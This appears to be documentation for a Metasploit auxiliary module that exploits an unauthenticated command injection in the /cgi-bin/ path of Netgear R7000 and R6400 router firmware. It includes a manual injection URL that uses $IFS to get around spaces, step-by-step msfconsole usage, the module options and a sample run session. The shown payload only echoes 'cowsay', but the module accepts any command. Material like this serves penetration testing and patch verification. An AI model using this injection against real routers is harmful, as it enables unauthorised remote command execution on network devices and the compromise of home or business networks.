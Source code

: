 The netgear_r7000_command_injection module exploits a command injection vulnerability in Netgear R7000 and R6400 router firmware version `1.0.7.2_1.1.93` and possibly earlier. The vulnerability is found in the `/cgi-bin/` folder of the router. A manual injection would look like so: `http://<RouterIP>/cgi-bin/;echo$IFS"cowsay"`. This will echo 'cowsay' on the router. 


## Vulnerable Application

Netgear R7000 and R6400 routers running firmware version `1.0.7.2_1.1.93` and possibly earlier.

## Verification Steps

  2. Start msfconsole
  3. Do: `use auxiliary/scanner/http/netgear_r7000_command_injection`
  4. Do: `set RHOST <RouterIP>`
  5. Do: `set CMD "Command to execute"`
  6. Do: `run`
  5. If the router is running the vulnerable firmware, the command should run.

## Options

  **RHOST**

  This should usually be the local IP address of the vulnerable router.

  **CMD**

  This is the command to execute on the router. if you input spaces, they will be converted to `$IFS` when running the command.

## Scenarios

  Sample output of what it should look like. 

  ```
  msf > use auxiliary/scanner/http/netgear_r7000_command_injection
msf auxiliary(netgear_r7000_command_injection) > options

Module options (auxiliary/scanner/http/netgear_r7000_command_injection):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD                       yes       Command line to execute
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                     yes       The remote target address
   RPORT    80               yes       The target port
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host

msf auxiliary(netgear_r7000_command_injection) > set CMD echo "cowsay"
CMD => echo 'cowsay'
msf auxiliary(netgear_r7000_command_injection) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf auxiliary(netgear_r7000_command_injection) > check
[*] 192.168.1.1:80 The target service is running, but could not be validated. 
msf auxiliary(netgear_r7000_command_injection) > run

[*] Sending request to 192.168.1.1
[*] Auxiliary module execution completed
msf auxiliary(netgear_r7000_command_injection) > 
  ```

